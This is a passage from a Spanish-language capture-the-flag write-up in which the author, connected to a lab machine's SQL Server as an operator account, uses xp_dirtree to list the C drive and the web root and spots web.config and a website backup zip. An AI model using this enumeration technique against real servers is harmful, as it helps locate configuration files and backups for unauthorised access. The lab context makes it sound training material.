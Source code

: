 ```jsx

Recovery                        1      0   

SQL2019                         1      0   

System Volume Information       1      0   

Users                           1      0   

Windows                         1      0   

SQL (MANAGER\Operator  guest@master)> 

```

Se enumera el directorio wwwroot, el cual contiene algunos archivos interesantes como web.config, así como un backup comprimido en zip con el nombre website-backup-27-07-23-old.zip

```jsx
SQL (MANAGER\Operator  guest@master)> exec master.sys.xp_dirtree 'c:\inetpub\wwwroot\',1,1
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1   

SQL (MANAGER\Operator  guest@master)> 

```

Este directorio sirve como raíz para los contenidos estáticos de la página web.

![Untitled](/assets/images/2024-03-18-Manager/Untitled.png)

